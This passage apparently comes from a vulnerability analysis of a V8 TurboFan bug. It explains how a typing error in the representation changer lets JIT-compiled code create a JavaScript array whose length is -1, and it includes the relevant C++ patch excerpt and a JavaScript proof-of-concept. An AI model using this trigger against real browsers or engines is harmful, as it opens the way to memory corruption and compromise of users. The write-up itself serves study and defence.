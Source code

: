 That’s how this bug surfaced. In the patch, a new condition is added at [1]: if only `use_info.type_check() == TypeCheckKind::kNone` and `output_type` is `Unsigned32`, then a truncation node is added. This essentially means if the node that uses this input doesn’t need any type checks then use this if not use the CheckedUnint64ToInt32[2] which checks for overflows. What a subtle bug.

```c
if (output_type.Is(Type::Signed32()) ||
       (output_type.Is(Type::Unsigned32()) &&
        use_info.type_check() == TypeCheckKind::kNone) || [1]
       (output_type.Is(cache_->kSafeInteger) &&
        use_info.truncation().IsUsedAsWord32())) {
     op = machine()->TruncateInt64ToInt32();
else if (use_info.type_check() == TypeCheckKind::kSignedSmall ||
              use_info.type_check() == TypeCheckKind::kSigned32 ||
              use_info.type_check() == TypeCheckKind::kArrayIndex) {
     if (output_type.Is(cache_->kPositiveSafeInteger)) {
       op = simplified()->CheckedUint64ToInt32(use_info.feedback()); [2]
     }
```

I’m really curious how these experts find such amazing bugs, these bugs like these are incredibly subtle and complex. Are they using fuzzing techniques, I wonder if this is found via fuzzing or is it just countless hours spent debugging and studying the source code? Respect anyway.

### Type Confusion (How array gets -1)

To demonstrate the issue, let’s modify the foo function and run this.
```js
            function foo(a) {
                let x = -1;
                if (a){
                    x = 0xFFFFFFFF;
                }
                let oob_smi = new Array(0 - Math.max(0, x));
                // TurboFan tracks the only possible length 0, 
                // but the actual length in memory is 1
                if (oob_smi.length != 0) { 
                    // 0(turbofan tracked len) -1 
                    oob_smi.length = -1; 
                }
                return oob_smi;
               
            }
            try{
                var before_opt = foo(true);
            }
            catch(err){
            //RangeError: Invalid array length(-1/-0xffff_fff)
                console.log(err)
            }
            for (var i = 0; i < 0x10000; ++i) {
                foo(false);
            }
            //no error here? how?
            var oob_smi = foo(true)
            console.log(oob_smi.length)//-1 wtf how?
           
```
